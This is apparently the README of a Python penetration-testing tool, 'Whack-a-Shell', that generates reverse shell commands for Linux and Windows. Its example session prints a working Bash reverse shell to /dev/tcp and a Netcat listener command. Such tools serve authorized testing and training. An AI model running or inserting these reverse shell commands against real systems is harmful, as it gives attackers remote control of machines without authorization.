 ```md
# Reverse Shell Generator

A Python tool for dynamically generating reverse shell commands for both Windows and Linux systems. This tool supports multiple shell types and provides easy-to-use prompts with built-in IP address and port validation.

## Features

- **Cross-platform support**: Generates reverse shell commands for both Windows and Linux systems.
- **Multiple reverse shell types**: Includes Bash, Python, Netcat for Linux, and PowerShell, Netcat for Windows.
- **User-friendly interface**: Simple prompts for user input and shell selection.
- **Error handling**: Validates IP address and port input, handling incorrect entries gracefully.

## Requirements

- **Python 3.x**
- `colorama` library for colored terminal output
- `ipaddress` library for IP validation (built into Python 3)
- Your custom `reverse_shells.py` file that contains `LinuxReverseShellGenerator` and `WindowsReverseShellGenerator`.

### Install dependencies

Run the following command to install `colorama`:

```bash
pip install colorama
```

## How to Run

1. Clone or download this repository to your local machine.
2. Ensure the `reverse_shells.py` file is in the same directory as the main script.
3. Run the Python script:

```bash
python3 Whack-a-Shell.py
```

## Usage

1. Select the target operating system (Windows or Linux) when prompted.
2. Enter a valid IP address and port number.
3. Choose from the available reverse shell types based on your OS selection.
4. The generated reverse shell command will be displayed, along with the command to set up a Netcat listener on the attack machine.

## Example

```
Please select the OS for the reverse shell:
Enter 1 for Windows
Enter 2 for Linux
Choice: 2

You have selected Linux for the reverse shell.

Enter the IP address: 192.168.1.10
Enter the port number: 4444

Please choose the shell program

Enter 1 for Bash Reverse Shell
Enter 2 for Python Reverse Shell
Enter 3 for Netcat Reverse Shell
Choice: 1

Here is your reverse shell: sh -i >& /dev/tcp/192.168.1.10/4444 0>&1

Run this command on the attack machine to set up a listener: nc -nvlp 4444
```

## Error Handling

- **Invalid IP Address**: The program will prompt for a valid IP address if the input is not a valid IPv4 format.
- **Invalid Port**: The port number must be between 1 and 65535. If the input is outside this range or is not a number, the program will prompt for a valid port.

## Customization

You can easily extend this tool by adding more reverse shell options to the `LinuxReverseShellGenerator` and `WindowsReverseShellGenerator` classes in the `reverse_shells.py` file.

## License
This project is licensed under the MIT License. See the LICENSE file for details.

